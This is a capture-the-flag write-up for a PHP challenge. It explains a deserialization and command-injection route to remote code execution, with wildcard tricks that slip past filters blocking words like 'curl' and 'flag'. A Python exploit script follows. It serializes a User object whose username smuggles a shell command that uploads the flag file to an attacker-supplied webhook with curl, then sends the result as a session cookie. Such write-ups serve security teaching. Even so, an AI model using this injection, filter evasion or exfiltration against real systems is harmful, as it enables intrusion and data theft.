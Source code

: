 # Php is fun

## Description
PHP reigns supreme in security... change my mind.
The flag is located on /flag.txt.

## Solution
The flag can be obtained through RCE (Remote Code Execution). It's possible to exploit deserialization to achieve RCE in the username via PHP `shell_exec` command. To do this, it's enough to serialize a User object and pass the bash command we want into the username, closing the previous string and commenting out the remaining apostrophe at the end. Once the object is serialized, we can convert it to base64 and use it as a session cookie. Since `shell_exec` executes code without displaying the output, it's necessary to use an external server such as ngrok or requestbin to send the flag. To make things even more complicated, the strings like `flag` or `curl` have been banned, but this can be easily bypassed using bash wildcards. For example, `/fl?g.*` will not be blocked e we can rewrite `curl` as `c?rl`, but execute it by referencing it from `/usr/bin/c?rl`.

## Exploit
```py
import subprocess
import requests

url = "http://127.0.0.1:5002"
webhook = input("webhook: ")

php_code = f"""
    <?php
    class User {{
        public $username;

        public function __construct($username) {{
            $this->username = $username;
        }}
    }}
    echo base64_encode(serialize(new User("'; /usr/bin/c?rl -T /fla?.* {webhook} #")));
    ?>
"""

output = subprocess.check_output(["php"], input=php_code.encode())
cookies = output.decode().strip()

requests.get(url, cookies={"user": cookies})
